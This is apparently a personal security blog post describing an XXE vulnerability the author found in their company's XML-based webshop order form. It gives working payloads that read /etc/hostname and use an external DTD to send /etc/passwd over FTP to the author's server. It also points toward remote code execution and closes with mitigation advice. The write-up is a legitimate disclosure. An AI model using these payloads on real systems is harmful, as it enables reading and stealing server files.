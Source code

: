 ```yaml
---
layout: post
title: "Exploiting XXE to gain LFI"
date: 2020-07-19
---
```


## Topic
Today I'd like to talk to you about a vulnerability I've found some years ago in our webshop application.  
The application itself is nothing fancy. It's just a form which creates an order with XML values you submit to it.

## Structure
The UI doesn't really look appealing or UX-friendly, but it does its job and the backend that I'm interested in.  
![Offlinebestellung](/assets/images/offlinebestellung.png "Offlinebestellung")

Our documentation stated how the XML needs to be properly structured to appear valid for further processing.
```
<ORDERIN>
  <KOPF>
    <Sender>Customer Nr.</Sender>
    <KopfText1>n/a</KopfText1>
    <IhrZeichen>n/a</IhrZeichen>
    <Bestelldatum>12.07.2020</Bestelldatum>
    <Lieferdatum>13.07.2020</Lieferdatum>
    <KopfKommission>
      <Kommission>Commission Nr.</Kommission>
    </KopfKommission>
  </KOPF>
  <POSITION>
      <Artikel-Nr>Article Nr.</Artikel-Nr>
      <BestellMenge>quantity</BestellMenge>
      <Postext>
        <Texte>n/a</Texte>
      </Postext>
  </POSITION>
</ORDERIN>
```

## The vulnerability
Many XML-Parsing libraries aren't configured correctly and let you define External Entities.  
In itself they aren't that useless. They let you, for example, define structures of legal elements and attributes for your XML (also known as Document Type Definition - dtd.)

The vulnerability itself is called XXE (XML External Entity) - [Read more
here](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

It turned out that the XML-Parser wasn't configured property (tam tam taaa insert meme here). DTD and external entities were allowed (even to foreign domains).


### Recon 
I've tried some elements with certain values to see if they would give me any sort of feedback.  
Most of them failed with the following message:  

<img src="/assets/images/xxe-failed.png" width="450px">

After some trial and error I've found that the elements <Kommission> and <IhrZeichen> were valid payload holders.

### Getting the hostname
For basic stuff you don't need some fancy dtd stuff. 
```
<?xml version=1.2" encoding="ISO-8859-1"> ?>
<!DOCTYPE foo [ <!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM "file://etc//hostname" >]>
...
      <Kommission>&xxe;</Kommission>
...
```

This request returned the following result:  (hostname of the server)  

<img src="/assets/images/hostname.png" width="550px">

Getting the hostname of a server is already pretty great.
But currently I was only able to report a LFI vulnerability.

### Grabbing interesting stuff
The problem with this particular XXE is that we need to rely on the max input settings of the XML which is defined by the backend.
There was no way to return more than one line (cause of \r\n chars which mess
with the output).   
If you can't reflect something, why not just redirect the output somewhere else?

Multiple protocols can be misused to do just this. (Like finger (lol) or
http/ftp).  
Without much playing around I've decided to use ftp to grab data from files with more than one line.

There's no magic behind it. I just spun up a quick ftp server and listened for incoming traffic.

Reading files is quite simple. All I had to do is setting up a HTTP server with a .dtd file  
in its root directory and wait for the victim to pick it up and process it.  
It would have been possible to do it without a .dtd file, but where's there the
fun?

```
python -m 'SimpleHTTPServer'
```
DTD File:
```
<!ENTITY % a SYSTEM "file:///etc/passwd">
<!ENTITY % b "<!ENTITY ftp SYSTEM 'ftp://uauth.io/%a;'>"
```
XML:
```
<?xml version=1.2" encoding="ISO-8859-1"> ?>
<DOCTYPE XXE [
<!ENTITY % dtd SYSTEM "http://uauth.io/xxe.dtd">
...
<IhrName1>%dtd;</IhrName1>
<Kommission>%ftp;</Kommssion>
```

I used the following ruby ftp stub to extract the passwd file.  
[xxe-ftp-server](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)

My ftp logs now showed the contents of /etc/passwd - hurray!  
<img src="/assets/images/passwd.png" width="150px">

### How to get RCE

To gain RCE you need to pray to your god(s) that the php expect module is activated.  
[PHP expect module](https://www.php.net/manual/de/book.expect.php)

It isn't on by default and so you most likely at a loss.

## Conclusion
XXE is a well documented vulnerability and lot of resources are out there for gaining RCE.
I've decided that all I needed was proof that I can ship data from the server without compromising it.

- Disable External Entities if not needed.  
- If needed - whitelist the sites hosting dtd.
- Firewall your Servers

Always test your own servers before the baddies do. :)


## Reward
A cold and wet handshake.



